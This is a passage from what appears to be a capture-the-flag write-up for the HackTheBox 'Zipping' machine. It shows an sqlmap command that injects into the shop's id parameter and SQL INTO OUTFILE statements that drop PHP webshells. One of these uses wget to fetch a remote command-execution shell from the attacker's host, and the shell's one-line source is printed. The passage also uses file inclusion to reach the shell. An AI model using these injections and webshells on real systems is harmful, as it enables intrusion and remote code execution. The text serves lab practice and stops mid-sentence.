 `sqlmap -u "http://zipping.htb/shop/index.php?page=product&id=1" --fresh-queries --prefix="%0A%0D'" --suffix="'1" -p id --dbms mysql --level 2 --risk 2 --sql-shell --time-sec 1 --batch`

&nbsp;
&nbsp;
&nbsp;
![](images/2024-01-19-15-26-40.png)

Sqli shell worked !

so now i just need upload mywebshell to the website
`select '<?php system(''ls''); ?>' INTO OUTFILE '/var/lib/mysql/shell.php%00';`
(to list file & folder)

`select '<?php system(''wget http://10.10.14.20/rcea.php''); ?>' INTO OUTFILE '/var/lib/mysql/shel.php%00';`
(upload webshell or RCE)

### rcea.php file
<?php system($_REQUEST["cmd"]); ?>

to upload the webshell go to `page=/var/lib/mysql/shel` without .php because already appended so you just see blank right?that mean its uploading so to access the webshell at /shop path because u can see the below
